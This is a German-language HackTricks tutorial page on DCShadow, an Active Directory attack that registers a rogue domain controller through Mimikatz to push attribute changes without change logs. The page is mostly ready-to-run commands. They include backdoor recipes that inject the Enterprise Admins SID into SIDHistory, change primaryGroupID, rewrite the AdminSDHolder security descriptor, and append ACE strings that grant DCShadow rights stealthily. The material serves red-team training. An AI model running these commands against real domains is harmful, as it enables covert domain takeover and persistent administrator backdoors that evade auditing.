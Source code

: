 {% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}


# DCShadow

Es registriert einen **neuen Domänencontroller** im AD und verwendet ihn, um **Attribute** (SIDHistory, SPNs...) an bestimmten Objekten **ohne** das Hinterlassen von **Protokollen** bezüglich der **Änderungen** zu **pushen**. Du **brauchst DA**-Berechtigungen und musst im **Root-Domain** sein.\
Beachte, dass bei Verwendung falscher Daten ziemlich hässliche Protokolle erscheinen werden.

Um den Angriff durchzuführen, benötigst du 2 Mimikatz-Instanzen. Eine davon startet die RPC-Server mit SYSTEM-Berechtigungen (hier musst du die Änderungen angeben, die du durchführen möchtest), und die andere Instanz wird verwendet, um die Werte zu pushen:

{% code title="mimikatz1 (RPC-Server)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Benötigt DA oder ähnliches" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Beachten Sie, dass **`elevate::token`** in der `mimikatz1`-Sitzung nicht funktioniert, da dies die Berechtigungen des Threads erhöht, wir jedoch die **Berechtigung des Prozesses** erhöhen müssen.\
Sie können auch ein "LDAP"-Objekt auswählen: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Sie können die Änderungen von einem DA oder von einem Benutzer mit diesen minimalen Berechtigungen vornehmen:

* Im **Domänenobjekt**:
* _DS-Install-Replica_ (Replica in der Domäne hinzufügen/entfernen)
* _DS-Replication-Manage-Topology_ (Replikations-Topologie verwalten)
* _DS-Replication-Synchronize_ (Replikationssynchronisation)
* Das **Standorte-Objekt** (und seine Kinder) im **Konfigurationscontainer**:
* _CreateChild und DeleteChild_
* Das Objekt des **Computers, der als DC registriert ist**:
* _WriteProperty_ (Nicht Schreiben)
* Das **Zielobjekt**:
* _WriteProperty_ (Nicht Schreiben)

Sie können [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) verwenden, um diese Berechtigungen einem unprivilegierten Benutzer zu geben (beachten Sie, dass dies einige Protokolle hinterlässt). Dies ist viel restriktiver als DA-Berechtigungen zu haben.\
Zum Beispiel: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Das bedeutet, dass der Benutzername _**student1**_ beim Anmelden an der Maschine _**mcorp-student1**_ DCShadow-Berechtigungen über das Objekt _**root1user**_ hat.

## Verwendung von DCShadow zur Erstellung von Hintertüren

{% code title="Setzen von Enterprise Admins in SIDHistory auf einen Benutzer" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Ändere PrimaryGroupID (füge Benutzer der Gruppe Domain Administrators hinzu)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Ändern des ntSecurityDescriptor von AdminSDHolder (Vollzugriff für einen Benutzer gewähren)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Geben Sie DCShadow Berechtigungen mit DCShadow (keine modifizierten Berechtigungsprotokolle)

Wir müssen die folgenden ACEs mit der SID unseres Benutzers am Ende anhängen:

* Am Domänenobjekt:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Am Angreifer-Computerobjekt: `(A;;WP;;;UserSID)`
* Am Zielbenutzerobjekt: `(A;;WP;;;UserSID)`
* Am Sites-Objekt im Konfigurationscontainer: `(A;CI;CCDC;;;UserSID)`

Um den aktuellen ACE eines Objekts zu erhalten: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Beachten Sie, dass Sie in diesem Fall **mehrere Änderungen** vornehmen müssen, nicht nur eine. Verwenden Sie also im **mimikatz1-Sitzung** (RPC-Server) den Parameter **`/stack` mit jeder Änderung**, die Sie vornehmen möchten. Auf diese Weise müssen Sie nur einmal **`/push`** verwenden, um alle gestauten Änderungen auf dem Rouge-Server durchzuführen.

[**Weitere Informationen zu DCShadow auf ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
